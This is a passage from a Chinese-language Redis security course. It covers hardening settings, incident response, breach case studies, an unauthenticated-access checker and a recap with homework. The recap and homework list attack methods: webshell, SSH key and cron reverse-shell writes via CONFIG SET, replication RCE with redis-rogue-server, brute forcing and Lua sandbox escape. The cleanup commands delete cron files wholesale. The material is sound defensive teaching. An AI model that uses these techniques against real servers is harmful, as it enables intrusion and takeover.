requirepass "GENERATED_32_CHAR_PASSWORD"
aclfile /etc/redis/users.acl

# 权限
# 由 redis 用户启动

# 危险命令禁用
rename-command CONFIG ""
rename-command FLUSHALL ""
rename-command FLUSHDB ""
rename-command DEBUG ""
rename-command SHUTDOWN ""
rename-command KEYS ""
rename-command SLAVEOF ""
rename-command MODULE ""

# 内存限制
maxmemory 2gb
maxmemory-policy allkeys-lru

# 持久化（按需）
save 900 1
save 300 10
appendonly yes
appendfsync everysec

# 日志
logfile /var/log/redis/redis-server.log
loglevel notice

# 监控
slowlog-log-slower-than 10000
slowlog-max-len 128
latency-monitor-threshold 100
```

### 启动
```bash
redis-server /etc/redis/redis-secure.conf --daemonize yes
```

### 连接
```bash
redis-cli --tls \
  --cert client.crt --key client.key --cacert ca.crt \
  -h 192.168.1.100 -p 6379 -a "GENERATED_PASSWORD"
```

---

## 4.10 应急响应：发现 Redis 被入侵后
### 调查步骤
```plain
1. 隔离网络
   - 立即在防火墙阻断 6379
   - 不重启 Redis（保留内存证据）

2. 信息收集
   - INFO server（版本）
   - CONFIG GET dir（看数据目录）
   - KEYS *（看是否有奇怪 key）
   - CLIENT LIST（看连接）
   - SLOWLOG GET（看异常命令）
   - MONITOR（实时监控，谨慎）

3. 检查写入的文件
   - crontab -l（root 和 redis 用户）
   - ls -la /root/.ssh/
   - ls -la /var/spool/cron/
   - find /var/www -name "*.php" -newer /tmp/anchor
   - ls -la /etc/cron.d/

4. 检查模块
   - MODULE LIST   ← 看是否加载了恶意模块

5. 检查从节点
   - INFO replication  ← 看是否被设为某个主节点的从

6. 抓内存（如有）
   - gcore -o /tmp/redis_core <pid>
   - strings /tmp/redis_core.* | grep -E "password|secret"

7. 备份数据后重装
   - Redis 二进制可能被替换
   - 必须重新编译或从可信源安装
```

### 清理后门
```bash
# 删除 authorized_keys 中的恶意公钥
vi /root/.ssh/authorized_keys

# 清理 cron
crontab -r
rm /var/spool/cron/*
rm /etc/cron.d/*

# 删除 webshell
find /var/www -name "*.php" -exec grep -l "eval\|assert" {} \;

# 删除恶意用户
userdel -r suspicious_user
```

### 关键教训
```plain
1. 保留证据：日志、内存 dump、网络抓包
2. 不要急着重启：内存中的线索会丢
3. 全面排查：一个后门可能掩护另一个
4. 重装优先：清理不彻底不如重装
```

---

## 4.11 真实案例赏析
### 案例 1：50000+ Redis 暴露公网 (Shodan 常态)
+ Shodan 搜索 `port:6379` 经常返回数万台未授权 Redis
+ 国内、欧美、东南亚均有大量暴露
+ 黑产批量扫描 → 写 SSH key → 挖矿

### 案例 2：Discuz Redis 缓存投毒 (2017)
+ Discuz 部分版本使用 Redis 缓存 session
+ Redis 暴露公网未授权
+ 攻击者修改 session 数据 → 管理员权限

### 案例 3：某游戏公司 Redis 拖库
+ Redis 暴露公网无密码
+ 攻击者 FLUSHALL 删除所有数据
+ 业务停摆 3 天 → 直接损失数百万

### 案例 4：Linux 木木马 Linux/Redis（2018）
+ 大规模 Redis 未授权访问被植入挖矿木马
+ 同时感染 Docker / Kubernetes
+ 用 Redis 写 cron + SSH key 横向移动

### 案例 5：CVE-2022-0543 大规模利用
+ Debian/Ubuntu 源里的 Redis 普遍受影响
+ 攻击者通过 EVAL + Lua 沙箱逃逸 RCE
+ 部分服务器被植入挖矿程序

### 案例 6：某金融公司 Redis 内网漫游
+ 内网 Redis 未授权（暴露在内网）
+ 通过 SSRF 攻击 Redis
+ 拿到内网 shell → 横向移动到核心数据库

---

## 4.12 Redis 安全检测自动化
### 用 redis-cli 检测脚本
```bash
#!/bin/bash
# redis_check.sh
TARGET=$1

echo "[*] Testing no-password access..."
if redis-cli -h $TARGET PING 2>/dev/null | grep -q PONG; then
    echo "[!] CRITICAL: No password required!"
    redis-cli -h $TARGET INFO server | head -10
    redis-cli -h $TARGET CONFIG GET dir
    redis-cli -h $TARGET CONFIG GET requirepass
else
    echo "[+] Password required."
fi
```

### 用 Nmap 检测
```bash
# 探测开放
nmap -p 6379 target_subnet

# 检测未授权
nmap --script redis-info -p 6379 target

# 枚举数据
nmap --script redis-brute -p 6379 target
```

### Docker 安全扫描
```bash
# 检查镜像中的 Redis 版本 CVE
trivy image redis:6.0
```

---

## 4.13 第 4 课小结
| 加固维度 | 关键措施 |
| --- | --- |
| 网络层 | bind + protected-mode + 防火墙 + VPC |
| 认证层 | 强密码 + ACL + TLS |
| 权限层 | 低权限用户 + 目录权限 |
| 配置层 | rename-command 危险命令 |
| 更新层 | 关注 CVE + 升级 |
| 监控层 | slowlog + Prometheus |
| 加密层 | TLS 双向认证 |


### 应急响应原则
```plain
1. 隔离不重启
2. 收集证据
3. 排查所有后门位置
4. 重装优于清理
```

---

# 📝 课程总回顾（必背 30 条）
### 基础
1. Redis = 内存型 KV 数据库，默认 6379
2. RESP 协议 = *N 数组 + $N 字符串 + \r\n
3. 明文传输，无握手
4. 侦察命令：INFO / CONFIG GET * / KEYS *
5. 危险命令：FLUSHALL / SHUTDOWN / SLAVEOF / MODULE

### 未授权利用
6. 默认 bind 0.0.0.0 + 无密码 = 灾难
7. 写 Webshell：CONFIG SET dir → SAVE
8. 写 SSH Key：/root/.ssh/authorized_keys
9. 写 Cron：/var/spool/cron 反弹 shell
10. 主从复制 RCE：SLAVEOF + MODULE LOAD
11. Windows：启动项 / MOF
12. 主从复制 RCE 工具：redis-rogue-server
13. 4 种 RCE 几乎覆盖所有场景
14. FLUSHALL 清空再写避免语法错误
15. payload 前后必须有 \n\n

### 爆破
16. AUTH 机制无锁定
17. redis-cli -a 字典循环爆破
18. hydra / medusa 支持 redis 协议
19. 防御：强密码 + iptables 限速 + fail2ban
20. ACL（6.0+）实现细粒度授权

### CVE
21. CVE-2022-0543：Debian Lua 沙箱逃逸 CVSS 10
22. CVE-2023-25155：Lua 栈溢出
23. 修复策略：升级到最新稳定版
24. EVAL 可执行任意 Lua
25. Lua 沙箱绕过：package.loadlib / debug.getinfo

### 防御
26. bind + protected-mode + 防火墙
27. requirepass ≥ 32 字符
28. ACL 限制特定命令
29. rename-command 禁用 CONFIG/SLAVEOF/MODULE
30. 低权限用户运行 + 目录权限收紧

---

# 🎯 课后作业
### 基础题
1. 启动一个无密码 Redis，用 nc 发送 RESP 报文执行 PING / SET / GET
2. 用 tcpdump 抓包，Wireshark Follow TCP Stream 分析协议
3. 用 redis-cli 完成 4 种 RCE 中的 3 种（写 webshell / SSH key / cron）

### 进阶题
4. 编写 Python 多线程爆破脚本，对带密码的 Redis 进行测试
5. vulhub 启动 CVE-2022-0543，复现 Lua 沙箱逃逸
6. 用 redis-rogue-server 完成主从复制 RCE

### 实战题
7. **配置加固**：给一个默认 Redis 配置完整加固方案，验证 4 种 RCE 全部失效
8. **应急模拟**：写一个模拟 Redis 被入侵的场景，完成排查 + 清理 + 加固
9. **ACL 配置**：设计两个用户的 ACL，一个只读，一个仅能访问特定 key 前缀

---


